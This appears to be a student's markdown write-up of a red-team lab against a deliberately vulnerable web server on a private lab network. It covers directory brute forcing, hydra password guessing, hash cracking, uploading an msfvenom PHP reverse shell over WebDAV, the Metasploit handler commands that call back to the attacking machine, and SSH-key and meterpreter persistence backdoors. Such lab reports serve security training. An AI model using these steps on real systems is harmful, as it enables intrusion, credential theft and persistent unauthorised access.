 ## Red Team vs. Blue Team: Red Team Operations Summary

There are several steps involved with penetrating a network: Planning and Reconnaissance, Scanning, Exploitation, Post Exploitation, and Reporting. Once the network has been exploited there are a number of ways an attacker can abuse a system including stealing sensitive data, modifying data on the network, compromising the availability of data for a ransom and leaving a backdoor for perpetual access. In this lab we employ these methods to test the security of a network.

![RedTeam_NetworkDiagram](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/network_topology.JPG)

This document contains the following details:
- Description of the Topology
- Vulnerability Assessment
- Recon
- Exploitation
- Post-Exploitation

### Description of Topology

In this lab, there were several machines on the network to be tested. A Windows VM which contained Hyper-V Manager served as the gateway to other nested VMs on the same network. A machine called Capstone served as a vulnerable Web server. Another VM on the network was an ELK server which is used to capture log data from the Capstone Machine. This data is then presented using the Kibana platform. This platform is useful for parsing logs, creating visual representations of data, and creating alerts. Lastly, for this engagement the actual attacking machine - Kali - was on the network itself as well. The Capstone VM is the proposed target for this engagement. The goal of infiltrating the Capstone machine was to set up a reverse shell in which the Kali attack machine could remotely access the system. The sole target that was infiltrated was the Capstone VM.

The configuration details of each machine may be found below.

| Hostname | Function       | IP Address               | Operating System |
|----------|----------------|--------------------------|------------------|
| Gateway  | Gateway        | 192.168.1.1              | Windows 10 Pro   |
| Kali     | Attack Machine | 192.168.1.90             | Linux            |
| ELK      | ELK Log Server | 192.168.1.100            | Linux            |
| CAPSTONE | Target Machine | 192.168.1.105            | Linux            |

### Vulnerability Assessment

The assessment uncovered the following critical vulnerabiliies in the target:

- Public Facing Sensitive Data: Files alluding to the existence of a secret folder within the web server
  - Impact: Gives attackers incentive to probe for more sensitive data
- Brute Force Attack and Hash cracking: Attackers can use programs to guess login credentials or decrypt password hashes to gain credentials
  - Impact: Discovered credentials can be used to potentially access sensitive data on the web server
- Web Misconfiguration: Security Controls are not in place to restrict who can upload files to the web server
  - Impact: Attackers can upload and plant malware to later be used on the server
- Local File Inclusion (LFI): Attackers can execute the planted malware file to potentially gain a reverse shell on the web server
  - Impact: Discovered credentials can be used to potentially access sensitive data on the web server       

### Recon

- Vulnerabilities were identified in the target by first site mapping the web server using a simple Firefox Browser and a Kali Linux tool called dirbuster. 
- Dirbuster is a java application designed to brute force directories on web applications and web servers. Performing this recon revealed an important URL on the server:"/webdav".

![dirbScan](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/dirbScan.JPG)

- Further "site-walking" was conducted by browsing directories in the web browser manually. 
- Through a public-facing sensitive data vulnerability, it was discovered that a secret directory hidden within the web server existed and was only accessible by employees.

![secretFolder](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/secretFolder.JPG)

### Exploitation

- After gathering useful information through recon, the findings prompted the idea of brute forcing employee credentials using the employees listed in the site’s “Meet Our Team” page. 
- The intention was to find credentials to access this secret folder. 
- This brute force attack was successfully executed using the Kali Linux tool “hydra” to obtain the credentials of employee Ashton.

![hydra](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/hydra.JPG)

- The discovered credentials were then used to log into the secret folder directory

![secretFolderLogin](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/SecretFolderLogin.JPG) 

- The contents of the secret folder revealed a file called "connect_to_corp_server"

![secretFolder_Dir](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/SecretFolderDirContents.JPG) . 

- The next exploit was discovered in a file within the secret folder called "connect_to_corp_server". 
- This file contained the hash of the CEO’s (Ryan) password and instructions on how to access another hidden directory within the server called “webdav”. 
- The contents are displayed below: 
  - Note the network file share address is incorrect here. It should include the IP of our victim machine i.e. dav://192.168.1.105/webdav/  

![webDavInstructions](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/webDavInstructions.JPG) 

- Ryan's hashed password was copied and input into an online tool called Crack Station. 
- The site uses rainbow tables to compare the input hash to precomputed hashes to "crack" the password. 
- This hash was successfully cracked and privileges were escalated further to the CEO's account. 

![crackstation](![CrackStationPassword](https://user-images.githubusercontent.com/94092268/185767062-adf60e79-6909-4b18-ab6b-170e1abd8066.JPG) 

- A login screen was prompted for credentials

![webDavLogin](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/webDavLogin.JPG) 

- Next, a payload was constructed using msfvenom to create the reverse shell php script to be exploited on the target. 

![msfvenomPayload](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/msfvenomPayload.JPG) 

- With the high-level access acquired from Ryan's credentials, a php script was uploaded to the web server to initiate the first step in establishing a reverse shell between the Capstone Server and the Kali attacking machine. 
- This is exploitation of the web misconfiguration

> - Click Folder at top of desktop, Click in search bar and type in network file share folder
> - dav://192.168.1.105/webdav/ , then enter ryan's credentials
> - Drag and drop reverse_shell.php file into network file share 

- The ability to upload a .php script is a web misconfiguration vulnerability that was exploited. 
- A general coding best practice is to never allow uploading to a web server unless that is apart of the web application's functionality to the client. 
- If uploading is necessary, uploaded data should undergo scrutiny before being allowed on the web server to ensure the data does not contain malware. 

![uploadShellScript](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/UploadShellScript.jpg)

- Finally, a Local File Inclusion (LFI) vulnerability in the web server ensured the success of the reverse shell exploit. 
- Local File Inclusion vulnerabilities work by allowing an uploaded file or script to be executed on the server. 
- In this case, once the code is executed, it sends a meterpreter shell directly back to the attacking machine. 
- This was accomplished using Metasploit to turn on a listening port waiting for us to execute the newly uploaded php script on the target machine
> - msfconsole
> - use exploit/multi/handler
> - set payload php/meterpreter/reverse_tcp
> - set lhost 192.168.1.90
> - set lport 80
> - show options
> - exploit

- This code forces the target machine to send us a meterpreter shell connection. 

![msfsetup](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/msfsetup.JPG)

- Now we execute the script on the victim machine by typing the file path in the folder explorer search bar
> - dav://192.168.1.105/webdav/reverse_shell.php 

![meterpreterShell](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/meterpreterShell.JPG) 

- Once inside, a more stable shell was first established using the command “shell” in the Meterpreter session. 
- Basic linux commands like “cd” and “find” were utilized to search for files containing the word “flag” in the title.

![flagComplete](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/flagComplete.JPG)

### Post Exploitation

There are several ways to reconnect to the target. First, if no backdoor has been established, an attacker would have to exploit the target again using the same steps as before - this is why it is imperative to document every step of the engagement in the event you must recreate a scenario. Creating backdoors is another way to reconnect to a target after being disconnected. This can be accomplished through many methods and it differs based on the OS of the target machine. 

In the case of the Meterpreter session, meterpreter has a script called “persistence.rb” to maintain an open backdoor even if the target system is rebooted. In the meterpreter command line prompt run the command “ run persistence -h”. It is important to note that this method requires no authentication so anyone with access to the port used for the exploit can access the machine. This is not ideal for the purposes of penetration testing unless it is done on a network that is not public-facing. 

Another technique to create a backdoor once inside of the Capstone VM is to use SSH keys; note this service was shown to be running on Port 22 in the nmap service scan so it can be used, however this would not work where this service is not enabled. Simply add your public SSH key into the “~/.ssh/authorized_keys” file to allow for remotely connecting via SSH. 
